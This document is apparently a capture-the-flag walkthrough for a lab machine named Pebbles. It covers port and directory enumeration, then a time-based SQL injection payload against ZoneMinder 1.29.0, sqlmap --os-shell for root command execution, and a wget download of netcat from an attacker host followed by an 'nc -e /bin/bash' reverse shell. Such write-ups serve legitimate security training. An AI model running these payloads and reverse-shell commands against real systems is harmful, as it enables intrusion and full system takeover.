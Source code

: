# Exploitation Guide for Pebbles

## Summary

This machine is exploited via an SQL injection vulnerability. A root  shell can be obtained due to the database being misconfigured to run  with root privileges.

## Enumeration

### Nmap

We start off by running an `nmap` scan against all TCP ports:

```
kali@kali:~$ sudo nmap -p- 192.168.120.138
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-23 09:27 EDT
Nmap scan report for 192.168.120.138
Host is up (0.032s latency).
Not shown: 65530 filtered ports
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
3305/tcp open  odette-ftp
8080/tcp open  http-proxy
```

### Dirb

The websites on ports 80 and 8080 hold nothing interesting. Navigating to http://192.168.120.138:3305/, we are presented with a default Apache web page. Let’s try to brute-force hidden directories of this website using `dirb` with the **/usr/share/wordlists/dirb/big.txt** wordlist:

```
kali@kali:~$ dirb http://192.168.120.138:3305 /usr/share/wordlists/dirb/big.txt

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri Jun 19 11:32:12 2020
URL_BASE: http://192.168.120.138:3305/
WORDLIST_FILES: /usr/share/wordlists/dirb/big.txt

-----------------

GENERATED WORDS: 20458                                                         

---- Scanning URL: http://192.168.120.138:3305/ ----
+ http://192.168.120.138:3305/cgi-bin/ (CODE:403|SIZE:282)                                                                
==> DIRECTORY: http://192.168.120.138:3305/javascript/                                                                    
+ http://192.168.120.138:3305/server-status (CODE:403|SIZE:282)                                                           
==> DIRECTORY: http://192.168.120.138:3305/zm/                                                                            
                                                                                                                          
---- Entering directory: http://192.168.120.138:3305/javascript/ ----
^C> Testing: http://192.168.120.138:3305/javascript/error-pages                                                           
kali@kali:~$
```

This scan finds the directory */zm/*. Navigating there (http://192.168.120.138:3305/zm/), we see that this is a ZoneMinder CCTV monitoring software:

```
ZoneMinder Console - Running - default v1.29.0
```

This version of the software is vulnerable to [SQL injection](https://www.exploit-db.com/exploits/41239) in the POST variable `limit`.

## Exploitation

### SQL Injection Vulnerability

Let’s configure our web browser to use Burp proxy. We will visit the default page http://192.168.120.138:3305/zm/, click on **Add New Monitor**, and then click **Save**. We will capture the POST request in our proxy and then send it to the Repeater tab.

To validate the PoC, we will replace the body of the request with the following:

```
view=request&request=log&task=query&limit=100;(SELECT * FROM (SELECT(SLEEP(5)))OQkj)#&minTime=1466674406.084434
```

Our request might look like this:

```
POST /zm/index.php HTTP/1.1
Host: 192.168.120.138:3305
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.120.138:3305/zm/?view=monitor
Content-Type: application/x-www-form-urlencoded
Content-Length: 1693
Connection: close
Cookie: zmSkin=classic; zmCSS=classic; ZMSESSID=sats1ojubp1fh24t0rg842aim0
Upgrade-Insecure-Requests: 1

view=request&request=log&task=query&limit=100;(SELECT * FROM (SELECT(SLEEP(5)))OQkj)#&minTime=1466674406.084434
```

Sending the above request to the server indeed makes it wait for 5  seconds, confirming the vulnerability. This is easily exploitable with `sqlmap` or a similar tool.

### SQLMap

Let’s replace the body of the request with the following:

```
view=request&request=log&task=query&limit=100
```

We’ll send that request to the server to make sure we observe an  immediate 200 OK response. Next, we will right-click the request and  save it into a file **post.txt**.

The target system has been misconfigured to use a DBA user for the  application’s interactions with the MySQL database. Furthermore, the  database was misconfigured to run with root privileges. We can use `sqlmap` to automate the exploitation of this SQL injection vulnerability and obtain root privileges.

Although this might take a little while depending on our connection  (5-20 minutes), the result is a complete compromise of the operating  system.

```
kali@kali:~$ sqlmap -r post.txt --dbms mysql --os-shell
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.4.6#stable}
|_ -| . ["]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

...

it is recommended to perform only basic UNION tests if there is not at least one other (potential) technique found. Do you want to reduce the number of requests? [Y/n] n
[13:35:06] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'

...

[13:35:19] [INFO] testing for SQL injection on POST parameter 'limit'
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y

...

[13:37:06] [INFO] checking if the injection point on POST parameter 'limit' is a false positive
POST parameter 'limit' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 2030 HTTP(s) requests:
---
Parameter: limit (POST)
    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: view=request&request=log&task=query&limit=100;SELECT SLEEP(5)#
---

...

[13:37:27] [INFO] testing if current user is DBA
[13:37:27] [INFO] fetching current user
[13:37:27] [INFO] retrieved: 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
[13:37:49] [INFO] adjusting time delay to 1 second due to good response times
root@localhost

what is the back-end database management system architecture?
[1] 32-bit (default)
[2] 64-bit
> 2
[13:40:02] [INFO] checking if UDF 'sys_exec' already exist
[13:40:02] [INFO] checking if UDF 'sys_eval' already exist
[13:40:02] [INFO] detecting back-end DBMS version from its banner
[13:40:02] [INFO] retrieved: 5.7.30
[13:41:39] [INFO] retrieving MySQL plugin directory absolute path
[13:41:39] [INFO] retrieved: /usr/lib/mysql/plugin/
[13:47:36] [INFO] retrieved: 8040
[13:48:09] [INFO] the local file '/tmp/sqlmap98eauib64777/lib_mysqludf_sys1h7_1m42.so' and the remote file '/usr/lib/mysql/plugin/libsyuoc.so' have the same size (8040 B)
[13:48:09] [INFO] creating UDF 'sys_exec' from the binary UDF file
[13:48:10] [INFO] creating UDF 'sys_eval' from the binary UDF file
[13:48:10] [INFO] going to use injected user-defined functions 'sys_eval' and 'sys_exec' for operating system command execution
[13:48:10] [INFO] calling Linux OS shell. To quit type 'x' or 'q' and press ENTER
os-shell> whoami
do you want to retrieve the command standard output? [Y/n/a] Y
[13:48:24] [INFO] retrieved: root
command standard output: 'root'
os-shell> 
```

### Reverse Shell

We can utilize this UDF created by `sqlmap` to obtain a  full reverse shell on the target. Let’s start a Netcat listener on port  3305. We will also start a python web server on port 80 and host our  copy of the Netcat binary:

```
kali@kali:~$ which nc
/usr/bin/nc
kali@kali:~$ cp /usr/bin/nc .
kali@kali:~$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

We can now download the Netcat binary to the target machine and give it executable permissions:

```
os-shell> wget http://192.168.118.3/nc -O /tmp/nc
do you want to retrieve the command standard output? [Y/n/a] n
os-shell> chmod 777 /tmp/nc
do you want to retrieve the command standard output? [Y/n/a] n
os-shell>
```

Finally, we can use the binary to connect back to our attacking machine on port 3305:

```
os-shell> /tmp/nc 192.168.118.3 3305 -e /bin/bash
do you want to retrieve the command standard output? [Y/n/a] n
```

Looking back to our listener, we are presented with a root shell:

```
kali@kali:~$ nc -lvp 3305
listening on [any] 3305 ...
192.168.120.138: inverse host lookup failed: Unknown host
connect to [192.168.118.3] from (UNKNOWN) [192.168.120.138] 49542
id
uid=0(root) gid=0(root) groups=0(root)
```